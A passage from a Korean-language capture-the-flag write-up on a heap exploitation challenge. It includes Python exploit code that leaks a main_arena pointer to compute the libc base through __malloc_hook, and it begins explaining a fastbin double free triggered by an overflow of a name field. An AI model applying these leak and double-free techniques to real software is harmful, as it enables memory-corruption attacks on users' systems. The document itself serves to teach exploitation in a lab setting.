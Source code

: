그 후, show함수를 호출하면 heap에 있는 주소값이 leak된다.

![06_leak_main_arena](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/06_leak_main_arena.png)

저장돼있는 주소값은 main_arena+224 의 주소값이고, 이를 통해서 libc base주소를 구할 수 있다.

```python
add(0x78, b'F'*0x8, b'0')
out = show()
leak = u64(out.split(b'F'*0x8)[1][:6].ljust(8, b'\x00'))
malloc_hook = leak - 0xf0
libc.address = malloc_hook - libc.sym['__malloc_hook']
```

### 4.2. Double free fastbin

`name`변수 overflow를 이용해 fastbin에 대한 double free를 일으킬 수 있다.

1. Set 5th node's credential address as 4th's
2. Double free

#### 4.2.1. Set 5th node's credential address as 4th's
![07_bss_global_var](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/07_bss_global_var.png)
4개의 0x68크기의 node를 추가로 할당한 뒤 목록이 저장된 전역변수 영역을 보면 위와같이 되어있다.

